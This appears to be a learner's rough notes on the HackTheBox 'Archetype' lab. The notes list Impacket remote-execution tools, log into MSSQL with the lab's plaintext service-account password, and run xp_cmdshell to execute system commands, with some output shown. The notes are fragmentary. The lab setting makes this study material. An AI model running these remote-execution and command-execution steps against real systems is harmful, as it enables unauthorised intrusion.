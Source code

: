 
## 2️⃣ What these tools do

|Tool|What it does|How it relates to your SQL account|
|---|---|---|
|`**smbclient.py**`|Connects to SMB shares (file shares) on a host|If `sql_svc` has file permissions, you can list/download files|
|`**smbexec.py**`|Execute commands remotely via SMB & service creation|Uses Windows authentication; works if `sql_svc` has local admin rights|
|`**wmiexec.py**`|Execute commands remotely via WMI (RPC)|Uses Windows creds to run commands without a shell service installed|
|`**psexec.py**`|Create a service to get remote shell|Needs Windows privileges; uses `sql_svc` Windows login|

```BNF
smbexec.py ARCHETYPE\sql_svc@10.129.250.51
 wmiexec.py ARCHETYPE\sql_svc:M3g4c0rp123@10.129.250.51
```

```BNF
 sqlcmd -S 10.129.250.51  -U "ARCHETYPE\sql_svc" -P "M3g4c0rp123"
 
 SELECT DB_NAME();
 GO
 SELECT name FROM sys.databases;
 GO
```

  

  

  

DTS（Data Transformation Services）

because the user ID is ARCHETYPE\sql_svc; ,so it is a user for mssql.

also 1433/tcp open ms-sql-s Microsoft SQL Server 2017 14.00.1000.00; RTM

CAN USE sqlcmd and mssqlclient

```JavaScript
mssqlclient.py ARCHETYPE/sql_svc@10.129.95.187  -windows-auth

sqlcmd -S 10.129.95.187 -U ARCHETYPE\\sql_svc -P M3g4c0rp123 

check if we are admin

1> SELECT is_srvrolemember(‘sysadmin’);
2> go
Msg 102, Level 15, State 1, Server ARCHETYPE, Line 1
Incorrect syntax near '‘'.
1>



1>  EXEC xp_cmdshell 'net user';
2> go
output                                                                                                                                                                                                                                                         
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
NULL                                                                                                                                                                                                                                                           
User accounts for \\ARCHETYPE                                                                                                                                                                                                                                  
```